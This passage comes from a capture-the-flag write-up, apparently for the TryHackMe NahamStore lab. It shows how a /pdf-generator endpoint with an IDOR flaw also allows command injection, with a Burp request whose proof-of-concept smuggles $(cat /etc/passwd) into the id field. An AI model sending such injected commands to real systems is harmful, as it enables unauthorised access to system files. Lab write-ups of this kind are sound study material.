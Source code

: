 We're `www-data`!

```
$ cat flag.txt
{Redacted}
```

2. Second RCE flag

**In the IDOR section, we found that the `/pdf-generator` suffers an IDOR vulnerbility, and it's also vulnerable to RCE (Command injection)!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a59.png)

**Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=5
```

**In here, we can also execute arbitrary command by using `$(<cmd_here>)`**

**Proof-of-Concept:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=5$(cat+/etc/passwd)
```

